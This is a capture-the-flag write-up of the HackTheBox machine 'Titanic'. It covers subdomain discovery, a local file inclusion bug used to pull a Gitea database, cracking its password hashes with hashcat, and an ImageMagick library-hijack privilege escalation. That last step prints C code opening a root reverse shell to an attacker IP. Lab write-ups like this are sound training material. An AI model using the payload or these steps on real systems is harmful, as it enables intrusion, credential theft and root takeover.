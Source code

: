 ```yaml
---
description: Here are the write-ups for HTB machine, Nocturnal.
icon: linux
coverY: 0
---
```


# Titanic

<figure><img src=".gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

## Initial

No extensive information given in the start, as usual we provided with IP Address.

## Scanning

### Port Scanning

Based on these outputs. I discovered 2 ports, 22 and 80 is open. From here, we have to include titanic.htb inside `/etc/hosts`  then we can start port enumeration.

```
rustscan -a 10.10.11.55
nmap -sC -sV 10.10.11.55
nano /etc/hosts > add "10.10.11.55    titanic.htb"
```

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Port 22 (SSH) Enumeration

I found nothing here, let's move on.

### Port 80 (HTTP) Enumeration

#### Subdomain discovery

I discovered 1 subdomain called`dev.titanic.htb`. From my observation, this domain used by developer to store n manage web repositories. Without proper access control, I can access the web source code, config files, important file locations, and credential.&#x20;

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption><p>subdomain fuzzing</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Information Disclosure

During source code analysis, I found out the the website is vulnerable to [Local File Inclusion (LFI)](https://www.geeksforgeeks.org/php/local-file-inclusion-lfi/).  I tested on BurpSuite to confirm my theory. Then I leverage it and discover database path.

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

#### Database Enumeration

I downloaded this SQLite file content as `gitea.db` and remove the HTTP header, then we can start enumerating for any useful credential.

<figure><img src=".gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

#### Password Cracking via Hashcat

I discovered password hash for developer and administrator, given with the password hash algorithm.

Honestly, I been stuck here for A LONG time. I was unable to crack the password. Then I discover a post on cracking [Gitea's PBKDF2 Password Hashes](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes).

<figure><img src=".gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Leveraged this script, I able to convert gitea password hash to hashcat compatible hash format.

```
python3 gitea2hashcat.py "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"
```

<figure><img src=".gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

From `gitea2hashcat.py` output, I saved it to `gitea.hash` and run hashcat that file using rockyou wordlist.

```
hashcat gitea.hash /usr/share/wordlists/rockyou.txt --show
```

<figure><img src=".gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

NOTE: I repeated the same step on administrator pass hash, but the hash looks like uncrackable.

## Gain Access

### Establish SSH Connection

Previously, I able to crack the hash. I establish SSH connection using developer account with cracked password to gain user access on server. When connection successfully established, I make a listing of files and print content of user.txt

```
ssh developer@10.10.11.55 > Enter password
ls -la
cat user.txt
```

<figure><img src=".gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

### Script sharing over HTTP

To start enumerating and attempt to privilege escalation, I used LinPeas.sh to automate discovery. Before that, i have to download the script from my machine using python http server.

```
python3 -m http.server 8000
```

<figure><img src=".gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Download LinPeas.sh on target machine using following command:

```
wget http://10.10.11.55:8000/linpeas.sh
```

<figure><img src=".gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

### PE Enumeration via LinPeas

I automote enumeration for privilege escalation using the famous script, LinPeas.sh

```
chmod +x linpeas.sh
./linpeas.sh
```

After A LONG TIME finding, trying and erroringg. I discovered this script, identify\_images.sh and magick bin file. Honest, i didn't really know about this and didn't really hoped up on this, but I'll try.

<figure><img src=".gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

## Post Exploitation

The purpose fo this script is to:

* Change directory to /opt/app/static/assets/images
* Empties and set byte to 0 for metadata.log
* file all images in `/opt/app/static/assets/images/` with **.jpg** extension. Then pipe it into /bin/magick identify tool to extract image metadata and append to metadata.log.

<figure><img src=".gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

### ImageMagick Enumeration

I lookup to find vulnerability associated with this ImageMagick version and discover a critical vulnerability.

<figure><img src=".gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Here is where this get complicated, I stucked here for A LONG TIME (AGAIN). I tried multiple script to get privilege escalation. Then I found this PoC on Github\[[Link](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)].

I try to craft my own payload, save file as shell.c and setup the listener.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -c 'sh -i >& /dev/tcp/10.10.16.103/9003 0>&1'");
}
```

```
nc -lvnp 9003
```

<figure><img src=".gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

```
gcc -fPIC -shared -o ./libxcb.so.1 shell.c -nostartfiles
```

I run the payload with shared library we create based on github post we read before.

<figure><img src=".gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

### Enumerate Root Flag

Here we go, I finally got the reverse shell as `root`. I only have to read `root.txt`

<figure><img src=".gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>
